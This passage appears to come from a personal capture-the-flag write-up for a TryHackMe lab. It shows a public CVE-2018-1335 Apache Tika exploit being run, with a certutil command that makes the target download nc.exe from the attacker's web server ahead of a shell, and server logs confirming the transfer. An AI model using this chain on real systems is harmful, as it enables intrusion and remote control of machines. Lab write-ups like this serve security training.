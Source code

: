 <img src="../../2%20-%20Resources/Others/Flameshots/4511444b8ec50492621a4c8d827e69f2.png" alt="4511444b8ec50492621a4c8d827e69f2.png" width="353" height="155" class="jop-noMdConv">

We can copy it in a file in our working dir and execute it with [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) 3 :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 exploit.py       
Usage: python3 CVE-2018-1335.py <host> <port> <command>
Example: python3 CVE-2018-1335.py localhost 9998 calc.exe

```

So we need a command and we need a shell so we need to install [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) on the [Vulnerable Machine](../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md) by `locate nc.exe` and then `cp path/nc.exe .` and hosting a simple web server :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

```

Now we transfer :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ python3 exploit.py cyberlens.thm 61777 "certutil -urlcache -f http://10.8.162.183:8080/nc.exe C:/Users/Public/nc.exe"

```

We should see that in the server :

```
──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.60.241 - - [12/Jul/2025 12:39:40] "GET /nc.exe HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 12:39:41] "GET /nc.exe HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 12:39:41] "GET /nc.exe HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 12:39:42] "GET /nc.exe HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.

```
